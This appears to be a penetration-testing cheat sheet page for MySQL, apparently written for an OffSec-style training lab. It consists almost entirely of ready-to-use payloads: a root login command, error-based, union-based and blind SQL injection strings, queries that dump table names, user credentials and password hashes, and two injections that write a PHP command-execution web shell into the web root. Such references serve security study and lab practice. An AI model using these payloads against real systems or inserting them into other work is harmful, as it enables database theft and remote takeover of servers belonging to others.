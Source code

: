 # MySQL

```shell
mysql -u root -p'root' -h 192.168.50.16 -P 3306
```

{% code overflow="wrap" %}
```sql
select version();
select system_user();
show databases;
SELECT user, authentication_string FROM mysql.user WHERE user = 'offsec';

```
{% endcode %}

### _<mark style="background-color:purple;">**Error-Based SQLi**</mark>_

```sql
offsec' OR 1=1 --
```

{% code overflow="wrap" %}
```sql
' or 1=1 in (select @@version) -- //
-- MySQL accepts both version() and @@version statements.
```
{% endcode %}

```sql
' OR 1=1 in (SELECT * FROM users) -- //
```

{% code overflow="wrap" %}
```sql
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```
{% endcode %}

#### _<mark style="background-color:purple;">**Union-Based SQLi**</mark>_

```sql
user' OR 1=1; -- //
```

```sql
' ORDER BY 6; -- //
-- change number until error occurs
-- when error occurs that means there is n-1 columns
```

```sql
%' UNION SELECT 'a1', 'a2', 'a3', 'a4', 'a5' -- //
-- determine which columns are displayed
```

{% code overflow="wrap" %}
```sql
%' UNION SELECT database(), user(), @@version, null, null -- //
-- dumps the current database name, the user, and the MySQL version in the first, second, and third columns
```
{% endcode %}

```sql
' UNION SELECT null,user(),null,null,null; -- //
-- returns the current MySQL user
```

{% code overflow="wrap" %}
```sql
' UNION SELECT null, DATABASE(), null, null, null; -- //
-- returns the database name
```
{% endcode %}

{% code overflow="wrap" %}
```sql
' UNION SELECT null,null,null,null,group_concat(table_name),null FROM information_schema.tables WHERE table_schema = DATABASE(); -- //
-- get table name when only 5th column is rendered
```
{% endcode %}

{% code overflow="wrap" %}
```sql
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
-- returns table and column names
```
{% endcode %}

{% code overflow="wrap" %}
```sql
' UNION SELECT null,null,null,null,group_concat(column_name),null FROM information_schema.columns WHERE table_name = 'subscribers'; -- //
-- get all column names from subscribers table
```
{% endcode %}

{% code overflow="wrap" %}
```sql
' UNION SELECT null,null,null,null,group_concat(id, '|', emails, '|', is_donor, '|', donor_type, '|', status, '|', created_at),null FROM subscribers; -- //
-- dump table
```
{% endcode %}

{% code overflow="wrap" %}
```sql
' UNION SELECT null, username, password, description, null FROM users -- //
```
{% endcode %}

#### Upload a web shell to a writeable directory:

{% code overflow="wrap" %}
```sql
' UNION SELECT "", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```
{% endcode %}

{% code overflow="wrap" %}
```sql
' UNION ALL SELECT "<?php system($_GET['cmd']);?>",NULL,NULL,NULL,NULL,NULL INTO OUTFILE "/var/www/html/webshell.php"#
```
{% endcode %}

### _<mark style="background-color:purple;">Blind SQLi</mark>_

```sql
' AND 1=1 -- //
```

```sql
' AND IF (1=1, sleep(3),'false') -- //
```
